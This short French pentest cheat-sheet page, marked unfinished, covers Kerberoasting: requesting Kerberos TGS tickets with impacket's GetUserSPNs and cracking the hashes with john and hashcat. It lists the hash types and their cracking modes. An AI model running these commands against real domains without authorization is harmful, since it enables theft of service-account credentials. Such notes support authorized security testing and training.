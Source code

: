 ```yaml
---
description: A finir
---
```


# Kerberoast

### Récupération des tickets TGS

```
GetUsersSPN.py -request -dc-ip <IP-DC> <domain.local>/<USER> -outputfile impacket_TGS_<IP>.txt
```

### Cassage des hashs obtenus

```
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```

Plusieurs format de hash peuvent être obtenu :

* $17 : AES128
* $18 : AES256 (-m 19700 sur [hashcat](../cassage-dempreinte/hashcat.md), pas pris en compte par [john](../cassage-dempreinte/john.md))
* $23 : RC4-HMAC-MD5 (pris en compte par [john](../cassage-dempreinte/john.md))
